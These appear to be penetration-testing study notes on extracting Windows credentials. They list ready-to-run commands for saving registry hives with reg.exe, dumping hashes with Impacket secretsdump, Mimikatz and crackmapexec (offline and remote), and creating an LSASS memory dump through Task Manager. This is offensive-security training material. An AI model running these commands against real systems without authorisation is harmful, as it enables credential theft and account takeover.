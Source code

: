 We can create backups of these hives using the reg.exe utility.

### Using reg.exe save to Copy Registry Hives
```powershell
> reg.exe save hklm\sam C:\sam.save
> reg.exe save hklm\system C:\system.save
> reg.exe save hklm\security C:\security.save
```

#### Dumping Hashes Offline
One incredibly useful tool we can use to dump the hashes offline is Impacket's secretsdump.py. Impacket can be found on most modern penetration testing distributions. We can check for it by using locate on a Linux-based system:

```bash
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
$ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

### Mimikatz
```bash
mimikatz > privilege::debug
mimikatz > token::elevate
mimikatz > lsadump::sam
```

### Dumping Hashes Remote
```bash
$ crackmapexec smb <IP/RANGE> --local-auth -u <USERNAME> -p <PASSWORD> --sam`
$ crackmapexec smb <IP/RANGE> -u <USERNAME> -p <PASSWORD> --sam`
$ secretsdump.py <DOMAIN>/<USER>:<PASSWORD>@<IP> 
```

### Cracking Hashes with Hashcat


## Attacking LSA
### Dumping LSASS Process Memory
Similar to the process of attacking the SAM database, with LSASS, it would be wise for us first to create a copy of the contents of LSASS process memory via the generation of a memory dump. Creating a dump file lets us extract credentials offline using our attack host. Keep in mind conducting attacks offline gives us more flexibility in the speed of our attack and requires less time spent on the target system. There are countless methods we can use to create a memory dump. Let's cover techniques that can be performed using tools already built-in to Windows.

#### Task Manager Method
Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
A file called lsass.DMP is created and saved in: 
- `C:\Users\loggedonusersdirectory\AppData\Local\Temp`
